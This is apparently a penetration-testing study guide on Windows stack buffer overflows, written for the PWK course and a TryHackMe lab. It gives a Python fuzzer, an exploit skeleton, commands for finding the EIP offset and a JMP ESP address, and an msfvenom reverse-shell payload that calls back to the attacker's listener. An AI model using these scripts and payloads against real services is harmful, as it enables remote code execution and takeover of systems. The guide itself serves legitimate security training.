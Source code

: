 # Buffer overflows

These instructions are a combination of my notes from the PWK course material and notes taken while executing Tib3rius's ["Buffer Overflow Prep"](https://tryhackme.com/room/bufferoverflowprep) room on THM. There are multiple techniques for executing buffer overflows, but all follow the same basic outline. Find what works for you.

## Setup

### Immunity Debugger:

1. Start the application first, then open Immunity Debugger and use File --> Attach to view the applicable process -OR-
2. Open Immunity Debugger and use File-> Open to start the application
3. Select the "red arrow" to run the application

### Mona.py

1. Set up your working folder with the following command:

```
!mona config -set workingfolder c:\mona\%p
```

Mona is available at: [https://github.com/corelan/mona](https://github.com/corelan/mona)

## Fuzzing

The following script will fuzz a program by sending a string of characters that increases by 100 bytes with each iteration. To use, update the IP address, port, and string (line 20) to match the program you are testing.

```
import socket, time, sys

ip = "10.0.0.1" #change
port = 21 #change
timeout = 5

# Create an array of increasing length buffer strings.
buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        s.send("USER username\r\n") #update
        s.recv(1024)

        print("Fuzzing PASS with %s bytes" % len(string))
        s.send("PASS " + string + "\r\n")
        s.recv(1024)
        s.send("QUIT\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

## Replicate the crash

Build a script to replicate the error caused by the fuzzing script.

```
import socket

ip = "10.0.0.1" #update
port = 21 #update

prefix = ""
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

### Locate EIP

Generate a string of characters 400 bytes longer than the length that caused the program to crash while fuzzing.

```
msf-pattern_create -l 2700
```

* Insert the generated pattern into the "payload" variable of your script
* Restart Immunity Debugger and the program you are testing
* Run the exploit script
* Note the characters that overwrite EIP
* Use pattern\_offset.rb to locate the position of the characters in the string

```
msf-pattern_offset -q 39694438
```

* Add the value from pattern offset to the "offset" variable in the script
* Set the script's "retn" variable to "BBBB"
* Restart Immunity Debugger and the program you are testing
* Run the exploit script
* EIP should be cleanly overwritten with Bs (42424242)

### Check for bad characters

1. Insert the bad character buffer into the scripts "payload" variable
2. Restart Immunity Debugger and the program you are testing
3. Run the exploit script
4. After the program crashes, right click on "ESP" and "Follow Dump"
5. Remove characters that cause errors in memory (non-sequential)
6. Repeat steps 2-5 until there are no errors remaining in ESP

{% hint style="info" %}
\x00 was already removed from this buffer.
{% endhint %}

```
# Bad Characters

"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

## Redirect execution

Next, we want to find a reliable location in memory that contains an JMP ESP (or similar) instruction. This will enable us to redirect the program to our payload at the time of the crash.

1. Use the mona jmp command to search for jmp (or equivalent). By default, jmp ignores modules with DEP or ASLR.
2. Select from the list of options and note the memory location
3. Reverse the location (little endian) and insert the value in the script's "retn" variable (625011af become /xaf/x11/x50/x62)

```
!mona jmp -r esp -cpb "\x00\x0a\x0d"  # update bad characters

# mona find can also be used here, but jmp normall works
!mona find -s 'jmp esp' -type instr -cm aslr=false,rebase=false,nx=false -cpb "\x00\x0a\x0d"
```

## Generate payload

Next, we generate our reverse shell payload and add it to the exploit. We'll also pad the beginning our the payload with a minimum of 16 NOPs (x90) to provide space in memory for decoding the payload.

### Generate shellcode with Metasploit

```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py
```

### Pad with NOPs

Add the following to the script's "padding" variable.

```
"\x90" * 16 
```

## Launch exploit

* Setup a netcat listener on the attacking machine using the same port identified during the generation of the payload
* Launch the exploit
